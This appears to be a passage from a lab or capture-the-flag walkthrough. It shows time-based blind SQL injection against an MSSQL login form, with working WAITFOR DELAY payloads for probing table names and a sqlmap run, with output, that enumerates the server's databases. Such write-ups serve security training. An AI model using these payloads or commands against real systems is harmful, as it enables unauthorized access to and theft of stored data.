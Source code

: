 we understand it is a blind sqli, wo we try to use the 'WAITFOR DELAY' command to validate success of our SQL commands.
`'; IF (1=1) WAITFOR DELAY '0:0:10' -- -`
![[Pasted image 20240217180514.png]]
it works the server waited for 10 seconds.

so now we can query the server yes/no questions trying to substract password:

`'; IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:5' -- -`
with this payload we get that the tables is 'users':
![[Pasted image 20240217180826.png]]

using sqlmap to get the databases:
```bash
sqlmap -r /home/kali/butch_request --dbms mssql --dbs
        ___
       __H__                                                                                                          
 ___ ___[.]_____ ___ ___  {1.4.10#stable}                                                                             
|_ -| . [']     | .'| . |                                                                                             
|___|_  [']_|_|_|__,|  _|                                                                                             
      |_|V...       |_|   http://sqlmap.org                                                                           

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

...

[21:58:57] [INFO] POST parameter 'ctl00$ContentPlaceHolder1$UsernameTextBox' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable                                                                               
[21:58:57] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[21:59:08] [INFO] POST parameter 'ctl00$ContentPlaceHolder1$UsernameTextBox' appears to be 'Microsoft SQL Server/Sybase time-based blind (IF)' injectable

...

available databases [5]:
[*] master
[*] model
[*] msdb
[*] tempdb
[*] butch

[22:02:28] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[22:02:28] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.65.63'

[*] ending @ 22:02:28 /2020-12-22/
```
